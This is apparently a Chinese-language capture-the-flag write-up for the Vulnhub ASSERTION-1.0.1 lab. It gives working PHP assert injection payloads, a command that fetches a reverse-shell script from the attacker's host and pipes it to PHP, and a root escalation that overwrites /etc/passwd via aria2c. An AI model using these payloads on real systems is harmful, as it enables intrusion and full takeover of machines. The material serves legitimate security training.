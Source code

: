 ```yaml
---

title: Vulnhub 495	ASSERTION-1.0.1

---
```


考点：LFI,GTFOBins 

靶机链接：<https://www.vulnhub.com/entry/assertion-101,495/>

## 环境配置

| 名称            | IP             |
| --------------- | -------------- |
| Kali Linux      | 192.168.88.128 |
| ASSERTION-1.0.1 | 192.168.88.129 |

## 初步打点

### 端口扫描

```bash
$ export rip=192.168.88.129
$ sudo nmap -v -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:ce:aa:cc:02:de:a5:a3:58:5d:da:2b:ef:54:07:f9 (RSA)
|   256 9d:3f:df:16:7a:e1:59:58:84:4a:e3:29:8f:44:87:8d (ECDSA)
|_  256 87:b5:6f:f8:21:81:d3:3b:43:d0:40:81:c0:e3:69:89 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Assertion
```

### WEB测试

#### 端口80

![1](https://static.iihack.com/vulnhub/495/1.jpg)

![2](https://static.iihack.com/vulnhub/495/2.jpg)

大概率存在LFI，数次尝试失败，[盲猜asset的LFI，参考](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert)

```bash
http://192.168.88.129/index.php?page=./blog' and die(show_source('/etc/passwd')) or '
http://192.168.88.129/index.php?page=./blog' and die(system('pwd')) or '
```

![3](https://static.iihack.com/vulnhub/495/3.jpg)

![4](https://static.iihack.com/vulnhub/495/4.jpg)

## 获得权限

本地Kali 监听端口444

修改`/usr/share/laudanum/php/php-reverse-shell.php`中的`ip`和`port`，使用`python -m http.server 80`开启web服务

下载反弹shell脚本并执行

```bash
http://192.168.88.129/index.php?page=./blog' and die(system("curl http://192.168.88.128/php-reverse-shell.php|php")) or '
```

![5](https://static.iihack.com/vulnhub/495/5.jpg)

成功接收反弹shell


## 提权

运行linpeas.sh发现

![6](https://static.iihack.com/vulnhub/495/6.jpg)

[上GTFOBins查询了一下](https://gtfobins.github.io/gtfobins/aria2c/)

可以aria2c覆盖`/etc/passwd`文件

先查看`$ cat /etc/passwd`内容，使用openssl生成密码hash，密码是`password`

![7](https://static.iihack.com/vulnhub/495/7.jpg)

再在本地web目录passwd文件中添加

```bash
ii:$1$Pn/iC2y8$HoH1HDv3n0uGse8fQUgvR.:0:0:root:/root:/bin/bash
```
覆写靶机`passwd`文件

```bash
$ aria2c -o /etc/passwd "http://192.168.88.128/passwd"  --allow-overwrite=true
```

写入后切换ii，密码输入`password`

![8](https://static.iihack.com/vulnhub/495/8.jpg)
